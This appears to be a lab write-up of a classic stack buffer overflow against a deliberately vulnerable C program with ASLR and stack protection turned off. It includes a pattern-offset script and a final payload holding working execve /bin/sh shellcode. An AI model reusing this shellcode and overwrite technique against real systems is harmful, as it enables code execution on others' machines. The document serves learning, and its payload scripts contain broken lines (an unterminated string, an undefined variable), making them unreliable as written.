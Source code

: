 # POC Stack Smashing

Here is the program that we are going to stack smash.


```c

  void vuln(char *s) {
    int v_ebp;
    char smallbuf[32];

    asm("movl %%ebp, %0\n"
        :"=r"(v_ebp));
    printf("Value in ebp %x\n", v_ebp);

    strcpy(smallbuf, s);
    printf("%s\n", smallbuf);
  }

  int main(int argc, char *argv[]){
 
    vuln(argv[1]);
    return 0; 
  }


```

Deactivate randomizing addr.
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Compiling to remove stack protection.
```bash
gcc -O0 -fno-stack-protector -no-pie -fno-PIE -z execstack $* -lm 
```

## Exploit

```bash
gdb printme
```

### Find EIP offset 

```python
# taken at https://github.com/ickerwx/pattern/blob/master/pattern
# adapted to python3 / jeb 07.09.2002

#!/usr/bin/env python
import sys
import struct
import string

def print_help():
    print('Usage: %s (create | offset) <buf len> <hex value>' % sys.argv[0])

def pattern_create(length = 8192):
    pattern = ''
    parts = ['A', 'a', '0']
    try:
        if not isinstance(length, int) and length.startswith('0x'):
#        if not isinstance(length, (int, long)) and length.startswith('0x'):
            length = int(length, 16)
        elif not isinstance(length, int):
#        elif not isinstance(length, (int, long)):
            length = int(length, 10)
    except ValueError:
        print_help()
        sys.exit(254)
    while len(pattern) != length:
        pattern += parts[len(pattern) % 3]
        if len(pattern) % 3 == 0:
            parts[2] = chr(ord(parts[2]) + 1)
            if parts[2] > '9':
                parts[2] = '0'
                parts[1] = chr(ord(parts[1]) + 1)
                if parts[1] > 'z':
                    parts[1] = 'a'
                    parts[0] = chr(ord(parts[0]) + 1)
                    if parts[0] > 'Z':
                        parts[0] = 'A'
    return pattern

def pattern_offset(value, length = 8192):
    try:
#        if not isinstance(value, (int, long)) and value.startswith('0x'):
        if not isinstance(value, int) and value.startswith('0x'):
            value = struct.pack('<I', int(value, 16)).strip('\x00')
    except ValueError:
        print_help()
        sys.exit(254)
    pattern = pattern_create(length)
    try:
        return pattern.index(value)
    except ValueError:
        return 'Not found'

def main():
    if len(sys.argv) < 3 or sys.argv[1].lower() not in ['create', 'offset']:
        print_help()
        sys.exit(255)

    command = sys.argv[1].lower()
    num_value = sys.argv[2]

    if command == 'create':
        print(pattern_create(num_value))
    elif len(sys.argv) == 4:
        str_pattern = str(sys.argv[3])
        if all(c in string.hexdigits for c in str_pattern):
            pattern = bytes.fromhex(str_pattern).decode('utf-8') [::-1]
            print(pattern, end='') 
            print(" --> ", end='')
            print(pattern_offset(pattern, num_value))
        else:
            print_help()
            sys.exit(255)

if __name__ == '__main__':
    main()

```

Create our own pattern
```bash
python3 py/patterns create 300
```

output
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5A...`

Buffer injection :

```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b""
eip_set_addr = b"
pattern  = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
sys.stdout.buffer.write(pattern)

```

In gdb : 


```bash
r `python3 py/inBuffer.py`
```

The program crashes with the invalid address which corresponds to our pattern : 

![alt text](image.png)

```bash
python3 patterns.py offset 100 41366241
```

![alt text](image-1.png)


```bash
gdb printme
pwndbg> b vuln 
pwndbg> disassemble
```

Our buffer's offset : 
```assembly
   0x080491aa <+36>:	lea    eax,[ebp-0x2c]
```

We can run the program since it displays our ebp addr.

Now this part we will calculate our entry point address for our shell code.

`ffffcd98−0x2c` = `FFFFCD6C`

Now we can pass our shellcode with our eip address and stack smash. This allows us on the function call back to return to an other address which we defined ourselves, which points to our defined shellcode. Since our system is in little endian, we are writing our bytes like so.
```python
# https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection
import sys
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
eip_set_addr = b"\x6c\xcd\xff\xff"
sys.stdout.buffer.write(shellcode + 30*eip_addr) # inserting our shell code and overwriting the stack saved EIP.
```
Running shellcode from buffer stack smashing.
![alt text](image-2.png)